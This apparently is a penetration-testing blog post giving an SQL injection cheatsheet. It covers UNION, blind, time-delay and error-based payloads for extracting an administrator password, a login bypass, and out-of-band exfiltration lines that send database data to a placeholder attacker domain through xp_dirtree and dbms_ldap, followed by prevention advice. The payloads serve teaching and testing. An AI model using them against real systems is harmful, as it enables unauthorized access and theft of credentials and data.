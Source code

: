 ```yaml
---
title: "SQLi attack"
subtitle: ""
date: 2020-03-04T15:58:26+08:00
lastmod: 2020-03-04T15:58:26+08:00
draft: false
author: "Hato0"
description: "SQL injection cheatsheet"

tags: ["web", "penetest", "sqli"]
categories: ["Penetest - Web"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# SQL injection 

A SQL injection (SQLi) is a type of security exploit in which the attacker adds Structured Query Language (SQL) code to a Web form input box in order to gain access to unauthorized resources or make changes to sensitive data. 


An SQL query is a request for some action to be performed on a database. When executed correctly, a SQL injection can expose intellectual property, the personal information of customers, administrative credentials or private business details.

## SQLi Basics

Here will be some basics informations to get when you have a successfull injection

- SQL injection attack, querying the database type and version on Oracle
	- Depending on the DB you can get the version as follow:
		- Microsoft, MySQL
		{{< highlight sql "lineNos=false" >}}SELECT @@version{{< /highlight >}}
		- Oracle
		{{< highlight sql "lineNos=false" >}}SELECT * FROM v$version{{< /highlight >}}
		- PostgreSQL
		{{< highlight sql "lineNos=false" >}}SELECT version(){{< /highlight >}}
			
- SQL injection attack, listing the database contents 
	- Non-Oracle DB 
	    {{< highlight sql "lineNos=false" >}}select * from information\_schema.tables{{< /highlight >}}

	- Oracle DB
	    {{< highlight sql "lineNos=false" >}}select * from all_tables{{< /highlight >}}

## Union SQL attack 

These attacks are perform to extract data using the same amount of row than the initial result could display. For this attack, working conditions are:
-   The individual queries must return the same number of columns.
-   The data types in each column must be compatible between the individual queries

You can have those following examples : 

- Determining the number of columns returned by the query :
    - Using `Union` :
        {{< highlight sql "lineNos=false" >}}' union select NULL--{{< /highlight >}} 
        > Increasing number of NULL value until values are actually return
    - Using `Order` :
        {{< highlight sql "lineNos=false" >}}' order by 1--{{< /highlight >}}
        > Increasing the int value until an error occured
		
		
- Finding a column containing text
    {{< highlight sql "lineNos=false" >}}union select 'a', NULL, NULL, ...--{{< /highlight >}}
    > Add as many null as you need to match the number of columns
		
- Retrieving data from other tables
    {{< highlight sql "lineNos=false" >}}union select CHAMP1, CHAMP2, .... from TABLE_NAME--{{< /highlight >}}
    > Again add as many null value as needed
		
		
- Retrieving multiple values in a single column
    {{< highlight sql "lineNos=false" >}}union select CHAMP1 || 'SEPERATOR' || CHAMP2 .... from TABLE_NAME--{{< /highlight >}}
    > Very usefull when you only have the capacity to extract data from a uniq column
		
		

## Blind SQL attack 

- Conditional responses

	The goal here is to exfiltrate char by char fields using for exemple a query looking like this one : 
	{{< highlight sql "lineNos=false" >}}' and (select substring(password,1,1) from users where username='administrator')='a{{< /highlight >}}

- Conditional errors

	The goal here is to check errors based on a True query and on a false one. 
    
    Here is an example:
    - True statement :
        {{< highlight sql "lineNos=false" >}}' and (select case when (1=2) then 1/0 else 'a' end)='a{{< /highlight >}}

    - False statement :
        {{< highlight sql "lineNos=false" >}}' and (select case when (1=1) then 1/0 else 'a' end)='a{{< /highlight >}}
	
	
- Time delays

    This one is the favorite of everyone to quickly check for blind SQL.  
    
    The goal is to insert a sleep function (once or twice to confirm it) and check if there is any latence in the anwser given by the server. 
    If there is one, and if this latence is proportionate to your sleep value, then you know that you've got SQLi. 
    
    Examples : 
	
    - Using `sleep`:
        {{< highlight sql "lineNos=false" >}}';sleep(10)--{{< /highlight >}}
	- Using `waitfor` : 
        {{< highlight sql "lineNos=false" >}}'; if (1=1) waitfor delay '0:0:5'--{{< /highlight >}}
	
- Time delays and information retrieval

	Using the techique right above, we can exfiltrate data based on the time the query take to give a result. We will stick with conditional tested char by char. 

    Here is an example : 
    {{< highlight sql "lineNos=false" >}}
    '; if (select count(username) from users where username = 'administrator' and substring(password, 1, 1) > 'm') = 1 waitfor delay '0:0:5'--{{< /highlight >}}


- Out-of-band (OAST)

    This type of SQLi is perform against asynchronous system. 
    
    The goal here is to trigger out-of-band network. We usually use DNS protocol because that's simplier and available on any system. 
    
    To exfiltrate data we will use conditionals techniques again and more precisely a time delays equivalent. 
    Basicly we will redirect to our controlled domain on True or False condition. 
    
    For example we can perform those :
    - For Microsoft SQL Server	
        - Basic test:
            {{< highlight sql "lineNos=false" >}}'; exec master..xp\_dirtree '//MYDOMAIN/a'--{{< /highlight >}}

		- Data on subdomain:
            {{< highlight sql "lineNos=false" >}}declare @q varchar(1024); set @q = 'master..xp\_dirtree '\\\\' + substring(convert(varchar(max), convert(varbinary(max), user\_name()), 1),1,60) + '.MYDOMAIN\\foo'; exec(@q){{< /highlight >}}

    - MYSQL
        Check for the LOAD\_FILE, sys\_eval, http\_get, .. functions
	   
	- ORACLE
        {{< highlight sql "lineNos=false" >}}select dbms_ldap.init((select version from v$instance)||'.'||(select user from 		dual)||'.'||(select name from 	v$database)||'.'|'MYDOMAIN',80) from 	dual;{{< /highlight >}}


- SQL injection vulnerability allowing login bypass
	* Very simple : `username'--`

## How to prevent them 

If a SQL injection attack is successfully carried out, the damage could be expensive in terms of resources and customer trust. That is why detecting this type of attack in a timely manner is important. Web application firewalls (WAF) are the most common tool used to filter out SQLi attacks. WAFs are based on a library of updated attack signatures and can be configured to flag malicious SQL queries.

In order to prevent a SQL injection attack from occurring in the first place, developers can follow these practices:

-   Avoid SQL statements that allow user input, choose prepared statements and parameterized queries instead.
-   Perform input validation, or sanitization, for user-provided arguments.
-   Do not leave sensitive data in plaintext format, or use encryption.
-   Limit database permissions, privileges and capabilities to the bare minimum.
-   Keep databases updated on security patches.
-   Routinely test the security measures of applications that rely on databases.
-   Remove the display of database error messages to the users.